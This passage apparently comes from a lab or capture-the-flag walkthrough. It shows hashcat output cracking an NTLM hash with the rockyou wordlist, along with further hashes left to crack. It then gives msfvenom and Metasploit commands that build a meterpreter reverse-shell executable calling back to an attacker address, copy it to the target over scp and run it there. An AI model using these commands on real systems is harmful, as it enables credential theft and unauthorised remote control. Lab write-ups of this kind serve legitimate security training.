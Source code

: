 ``` txt
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: f4ab68f27303bcb4024650d8fc5f973a
Time.Started.....: Thu Sep 16 16:53:00 2021 (3 secs)
Time.Estimated...: Thu Sep 16 16:53:03 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3817.3 kH/s (0.25ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10846208/14344385 (75.61%)
Rejected.........: 0/10846208 (0.00%)
Restore.Point....: 10842112/14344385 (75.58%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Magic01 -> MYSELFonly4EVER

Started: Thu Sep 16 16:52:35 2021
Stopped: Thu Sep 16 16:53:04 2021
```

Looks like we need to crack the passwords of Machine1 (64f12cddaa88057e06a81b54e73b949b) and Machine2 (c39f2beb3d2ec06a62cb887fb391dee0)...

## Maintaining Access

Generating a Payload with msfvenom

``` sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.193.173 LPORT=5555 -f exe -o sh3ll.exe
```

Start metasplot and listen

``` sh
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

Move file to target and run it:

``` sh
scp sh3ll.exe Administrator@10.10.119.134:/Users/Administrator/sh3ll.exe
ssh -l Administrator@CONTROLLER 10.10.119.134
PS C:\Users\Administrator\> sh3ll.exe
```

